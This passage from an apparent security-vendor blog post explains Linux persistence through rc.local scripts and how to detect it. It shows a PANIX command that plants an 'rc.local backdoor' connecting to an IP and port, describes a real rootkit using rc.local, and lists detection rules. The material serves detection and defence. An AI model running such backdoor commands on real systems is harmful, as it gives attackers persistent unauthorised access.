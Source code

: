 To ensure `rc.local` runs during boot, the script must be marked executable. On the next boot, the `systemd-rc-local-generator` will create the necessary symlink in order to enable the `rc-local.service` and execute the `rc.local` script. RC scripts did receive their own sub-technique by MITRE. More information and examples of real-world usage of RC Scripts for persistence can be found in [T1037.004](https://attack.mitre.org/techniques/T1037/004/).

### Persistence through T1037.004 - run control (RC) scripts

As long as the `systemd-rc-local-generator` is present, establishing persistence through this technique is simple. Create the `/etc/rc.local` file, add your payload, and mark it as executable. We will leverage the following PANIX command to establish it for us.

```
> sudo ./panix.sh --rc-local --default --ip 192.168.1.1 --port 2007
> [+] rc.local backdoor established 
```

After rebooting the system, we can see the following events being generated:

![Events generated as a result of RC Script persistence establishment](/assets/images/sequel-on-persistence-mechanisms/image6.png "Events generated as a result of RC Script persistence establishment")

The same issue as before arises. We see the execution of PANIX, creating the `/etc/rc.local` file and granting it execution permissions. When running `systemctl daemon-reload`, we can see the `systemd-rc-local-generator` creating a symlink in the `/run/systemd/generator[.early|late]` directories. 

Similar to the previous example in which we ran into this issue, we can again use the `already_running` `event.action` documents to get some information on the executions. Digging into this, one method that detects potential traces of `rc.local` execution is to search for documents containing `/etc/rc.local start` entries:

![Events generated as a result of rc.local service status](/assets/images/sequel-on-persistence-mechanisms/image7.png "Events generated as a result of rc.local service status")

Where we see `/etc/rc.local` being started, after which a suspicious command is executed. The `/opt/bds_elf` is a rootkit, leveraging `rc.local` as a persistence method. 

Additionally, we can leverage the [syslog](https://man7.org/linux/man-pages/man3/syslog.3.html) data source, as this file is parsed on initialization of the system integration. You can set up [Filebeat](https://www.elastic.co/beats/filebeat) or the [Elastic Agent](https://www.elastic.co/elastic-agent) with the [System integration](https://www.elastic.co/docs/current/en/integrations/system) to harvest syslog. When looking at potential errors in its execution logs, we can detect other traces of `rc.local` execution events for both our testing and rootkit executions:

![Events generated as a result of /etc/rc.local syslog error messages](/assets/images/sequel-on-persistence-mechanisms/image4.png "Events generated as a result of /etc/rc.local syslog error messages")

Because of the challenges in detecting these persistence mechanisms, it is very important to catch traces as early in the chain as possible. Leveraging a multi-layered defense strategy increases the chances of detecting techniques like these.

| Category | Coverage                                            |
|----------|-----------------------------------------------------|
| File     | [rc.local/rc.common File Creation](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_rc_script_creation.toml)                    |
|          | [Potential Persistence via File Modification](https://github.com/elastic/detection-rules/blob/main/rules/integrations/fim/persistence_suspicious_file_modifications.toml)         |
| Process  | [Potential Execution of rc.local Script](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_rc_local_service_already_running.toml)              |
|          | [Executable Bit Set for Potential Persistence Script](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_potential_persistence_script_executable_bit_set.toml) |
| Syslog   | [Suspicious rc.local Error Message](https://github.com/elastic/detection-rules/blob/main/rules/linux/persistence_rc_local_error_via_syslog.toml)                   |
